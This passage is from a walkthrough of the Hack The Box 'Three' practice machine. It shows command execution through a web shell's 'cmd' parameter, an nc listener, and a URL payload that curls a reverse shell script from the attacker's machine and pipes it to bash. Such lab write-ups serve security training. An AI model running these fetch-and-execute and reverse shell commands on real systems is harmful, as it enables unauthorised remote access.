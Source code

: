Try to execute the OS command <code>id</code> by using the URL parameter <code>cmd</code>.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%201/Three/Three/cmd%3Did.png" alt="cmdid" width="60%"><br>
The response from the server contains the output of the OS command <code>id</code>,<br>
which verified that we have <code>code execution</code> on the box.<br><br>
Thus, let us now try to obtain a reverse shell.<br>

Through a reverse shell, we will trigger the remote host to connect back to our <code>local machine's IP</code> address on the specified listening port.<br>
Obtain the <code>tun0 IP</code> address of our local machine by using <code>ifconfig</code>.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%201/Three/Three/ifocnfig.png" alt="ifocnfig" width="60%"><br>

Create a new file <code>shell.sh</code> which containing the following bash reverse shell payload.<br>
Reverse shell will connect back to our local machine on port 1337.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%201/Three/Three/shell.sh.png" alt="shell.sh" width="40%">

Start a <code>nc</code> listener on our local port 1337 with the command <code>nc -nvlp 1337</code>.<br>
Start a <code>web server</code> on our local machine on port 8000 and host bash file with the command <code>python3 -m http.server 8000</code>.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%201/Three/Three/http_server.png" alt="http_server" width="60%">

Use the <code>curl</code> to fetch the bash reverse shell file from our local host,<br>
and then pipe it to bash in order to execute it.<br>
Thus, let us visit the following URL containing the payload in the browser.<br>
<code>http://thetoppers.htb/shell.php?cmd=curl%20<YOUR IP ADDRESS>:8000/shell.sh|bash</code><br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%201/Three/Three/curl.png" alt="curl" width="60%">
